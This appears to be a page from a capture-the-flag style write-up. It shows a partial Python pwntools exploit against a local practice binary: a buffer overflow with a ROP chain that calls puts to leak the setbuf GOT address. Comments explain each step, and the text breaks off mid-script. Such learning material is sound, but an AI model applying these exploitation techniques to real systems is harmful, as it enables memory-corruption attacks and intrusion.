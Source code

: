 Updated script at the moment 
```python
#!/usr/bin/env python3

from pwn import *

p = process('./vuln') # start the vulnerable program process
 
# we reached EOF (End Of File) with our payload
gdb.attach(p) # debug our ROPchain

offset = 136 # we discovered that with 'pattern offset $rsp'
junk = b"A" * offset # creating our payload that will overflow

# where do we jumpt to since we cant execute it off the stack
# way to print out the address

"""
Plan to leak an address:
- use puts
- supply arguments to puts
- we will use ROP to do this:
	but will need the x64 calling conventions
- that means the register 'rdi' is the first argument
	we want to find a ropgadget that modifies (like a mov or pop) the rdi 
"""

pop_rdi = 0x400913 # 0x0000000000400913 : pop rdi ; ret (`ROPgadget --bin vuln`)
# scanf_at_got = 0x601038 # DAT_00601038, address of .got.plt section of the scanf function in ghidra
# puts_at_got = 0x601018 # same as the scanf_at_got, but we changed the function to leak the address
setbuf_at_got = 0x601028 # same as the above, but we changed the function once again to leak the address

puts_at_plt = 0x400540 # 00400540, address of .plt section of the puts function in ghidra
back_to_main = 0x400771 # 00400771, addres of main in ghidra

payload = [
	junk, # junk to overflow
	# call puts to leak the true scanf address
	p64(pop_rdi), # packs the integers into bytes (returns a 64-bit little-endian byte string representation as a hexadecimal-encoded string)
	p64(setbuf_at_got), # address we want to leak
	p64(puts_at_plt), # callpoint
	p64(back_to_main) # jump back to main, so that it won't crash after we leak the address
]

payload = b''.join(payload) # mix all those variables in the payload list and transforms everything in bytes
p.sendline(payload) # send payload

# to get the leaked address
p.recvline()
p.recvline()

# unpack it and save the leak address, strip the \n, and adjusts the string padded with 8 bytes 
# and suffix it with null bytes and turn it into hexadecimal
leak = u64(p.recvline().strip().ljust(8, b"\x00")) 

log.info(f"{hex(leak)=}") # get the leaked address

"""
```